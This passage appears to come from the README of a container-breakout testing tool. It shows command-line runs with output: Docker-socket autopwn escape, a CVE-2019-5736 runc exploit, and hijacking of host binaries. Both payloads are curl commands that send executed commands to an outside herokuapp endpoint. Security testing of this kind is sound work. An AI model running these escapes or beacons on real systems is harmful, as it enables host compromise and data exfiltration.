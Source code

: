 ### Break out of a Container but in a CI/CD Friendly way
This approach does not escape into a TTY on the host but instead returns an Exit Code > 0 to indicate a successful container breakout.

```
#./bob_linux_amd64 -autopwn=true -cicd=true
[+] Break Out The Box
[+] Attempting to autopwn
[+] Hunting Docker Socks
[+] Attempting to autopwn:  /var/meh
[+] Attempting to escape to host...
[!] Successfully escaped container
[+] Finished

#echo $?
1
```

### Exploit CVE-2019-5736 with a Custom Payload
Please note that for this exploit to work, a process has to be executed in the target container in this scenario.
```
#./bob_linux_amd64 -aggr='curl "https://some.endpoint.com?command=$0&param1=$1&param2=$2">/dev/null 2>&1'
[+] Break Out The Box[!] WARNING THIS OPTION IS NOT CICD FRIENDLY, THIS WILL PROBABLY BREAK THE CONTAINER RUNTIME BUT YOU MIGHT GET SHELLZ...
[+] Attempting to exploit CVE-2019-5736 with command:  curl "https://bobendpoint.herokuapp.com/canary/bobby?command=$0&param1=$
1&param2=$2">/dev/null 2>&1
[+] This process will exit IF an EXECVE is called in the Container or if the Container is manually stopped
[+] Finished
```

### Hijack Commands/Binaries on a Host with a Custom Payload
Please note that this can be used to test if external entities are executing commands within the container. Examples are Docker Exec and Kubetcl CP.

```
#./bob_linux_amd64 -hijack='curl "https://bobendpoint.herokuapp.com/canary/bobby?command=$0&param1=$
1&param2=$2">/dev/null 2>&1'
[+] Break Out The Box
[!] WARNING THIS WILL PROBABLY BREAK THE CONTAINER BUT YOU MAY GET SHELLZ...
[+] Attempting to hijack binaries
[*] Command to be used:  curl "https://bobendpoint.herokuapp.com/canary/bobby?command=$0&param1=$1&param2=$2">/dev/null 2>&1
[+] Currently hijacking:  /bin
[+] Currently hijacking:  /sbin
[+] Currently hijacking:  /usr/bin
[+] Finished
```
